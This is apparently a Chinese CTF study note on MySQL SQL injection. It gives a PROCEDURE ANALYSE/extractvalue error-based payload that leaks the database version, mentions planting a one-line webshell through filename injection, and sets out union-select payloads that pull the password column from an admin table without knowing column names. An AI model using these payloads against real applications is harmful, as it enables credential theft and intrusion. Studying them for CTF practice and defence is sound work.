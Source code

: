 * 语法

    `procesure analyse(max_elements,max_memory)`

    `max_elements`

    指定每列非重复值的最大值，当超过这个值的时候，MySQL不会推荐enum类型。
    
    `max_memory`
    
    analyse()为每列找出所有非重复值所采用的最大内存大小。

* payload

    `limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);`

### group by 注入
* 概念

    group by 用来结合合计函数，根据一个或者多个列对结果集进行分组

### 文件名注入

* 文件名传入数据库，查询导致注入，见题发挥
 
    `payload.bin`，写入一句话，适用于截取文件type并显示的题


## 无列名注入

>ctfshow 235 236
>https://zhuanlan.zhihu.com/p/98206699
* 概述

    无列名注入主要是适用于已经获取到数据表，但无法查询列的情况下，在大多数 CTF 题目中，information_schema 库被过滤，使用这种方法获取列名。

* 操作

    ```php
    payload:`select `3` from (select 1,2,3 union select * from admin)a;`
    ```
    原本的列名是id,username,password,使用第一个`select`之后就将列名命名为1,2,3，再`select * `就会将所有信息输出但是列名变为1，2，3,所以选中3就是选中了password一列
    ![](.\CTF\wulieming.jpg)

* 换别名

    >当然，多数情况下，` 会被过滤。当 ` 不能使用的时候，使用别名来代替：
    ```php
    payload:`select b from (select 1,2,3 as b union select * from admin)a;`
    ```
* 同时查多个列

    ```php
    payload:`select concat(`2`,x02d,`3`) from (select 1,2,3 union select * from admin)a limit 1,3;`
    ```
## 概述Mysql信息
>ctfshow 235 236
>[概述MySQL信息](https://www.jb51.net/article/134678.htm)
